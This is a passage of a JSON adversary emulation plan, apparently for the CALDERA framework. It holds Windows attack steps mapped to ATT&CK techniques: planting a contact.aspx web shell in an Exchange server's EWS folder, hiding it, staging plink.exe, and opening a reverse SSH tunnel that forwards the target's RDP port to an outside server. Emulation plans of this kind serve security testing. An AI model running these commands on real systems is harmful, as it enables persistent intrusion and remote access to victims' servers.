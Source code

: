   ```bash
      "privilege": "Unknown",
      "tactic": "exfiltration",
      "technique": "Exfiltration Over C2 Channel",
      "attack_id": "T1041"
    },
    {
      "ability_id": "2f3be960-5c00-4f03-a9c2-da09c31d38d9",
      "platform": "windows",
      "commands": {
        "cmd": "copy  C:\\Users\\#{initial.target.user}\\AppData\\Local\\SystemFailureReporter\\contact.aspx C:\\Users\\Public\\contact.aspx\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
    {
      "ability_id": "7aaecfb7-a1eb-477c-8d53-ab3009389623",
      "platform": "windows",
      "commands": {
        "cmd": "copy C:\\Users\\Public\\contact.aspx \"\\\\#{second.target.ip}\\C$\\Program Files\\Microsoft\\Exchange Server\\V15\\ClientAccess\\exchweb\\ews\\\"\n"
      },
      "privilege": "Unknown",
      "tactic": "persistence",
      "technique": "Server Software Component: Web Shell",
      "attack_id": "T1505.003"
    },
    {
      "ability_id": "5f7dc4b3-1287-4a25-b0b0-b6e73756cc11",
      "platform": "windows",
      "commands": {
        "cmd": "attrib +h \"\\\\#{second.target.ip}\\C$\\Program Files\\Microsoft\\Exchange Server\\V15\\ClientAccess\\exchweb\\ews\\contact.aspx\""
      },
      "privilege": "Unknown",
      "tactic": "defense-evasion",
      "technique": "Hide Artifacts: Hidden Files & Directories",
      "attack_id": "T1082"
    },
    {
      "ability_id": "f3df5a83-2a5a-4277-8763-8fb51032d3fc",
      "platform": "windows",
      "commands": {
        "cmd": "copy  C:\\Users\\#{initial.target.user}\\AppData\\Local\\SystemFailureReporter\\plink.exe C:\\Users\\Public\\Downloads\\plink.exe\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
    {
      "ability_id": "212995b5-acfc-404b-b3a9-a19cc0afa9a5",
      "platform": "windows",
      "commands": {
        "proc": "exec-background C:\\Users\\Public\\Downloads\\plink.exe -no-antispoof -ssh -N -R #{caldera.server.ip}:13389:#{second.target.ip}:3389 -l #{caldera.user.name} -pw \"#{caldera.user.password}\" #{caldera.server.ip}\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
  ```